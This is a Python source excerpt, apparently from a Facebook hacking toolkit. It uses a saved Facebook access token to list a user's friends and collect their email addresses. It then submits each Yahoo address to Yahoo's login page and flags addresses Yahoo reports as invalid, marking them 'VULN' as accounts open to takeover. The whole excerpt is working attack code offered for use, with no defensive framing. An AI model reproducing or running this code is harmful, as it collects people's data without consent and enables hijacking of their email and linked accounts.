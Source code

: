 ##### LIST FRIEND #####
def yahoofriends():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('reset')
	print logo
	mpsh = []
	jml = 0
	jalan('\033[1;91m[✺] \033[1;92mGetting email friend \033[1;97m...')
	teman = requests.get('https://graph.facebook.com/me/friends?access_token='+toket)
	kimak = json.loads(teman.text)
	save = open('out/MailVuln.txt','w')
	jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in kimak['data']:
		jml +=1
		mpsh.append(jml)
		id = w['id']
		nama = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				klik = br.submit().read()
				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					pek = jok.search(klik).group()
				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in pek:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+nama)
					berhasil.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/MailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()
